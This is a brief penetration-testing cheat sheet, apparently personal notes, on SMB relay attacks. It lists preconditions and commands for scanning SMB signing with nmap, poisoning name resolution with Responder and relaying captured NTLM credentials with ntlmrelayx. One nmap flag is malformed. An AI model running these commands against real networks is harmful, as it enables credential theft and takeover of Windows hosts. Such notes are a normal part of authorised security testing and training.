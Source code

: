 ## SMB Relay

SMB Signing must be disabled or not enforced on targets. Relayed user credentials must be admin on the machine for any real value.

```bash
nmap --script-smb2-security-mode.nse -p445 10.13.37.20

Turn SMB & HTTP in responder off.

sudo responder -I eth0 -dwP

sudo ntlmrelayx.py -t target -smb2support
sudo ntlmrelayx.py -tf targets -smb2support
```

![[smbrelay.png]]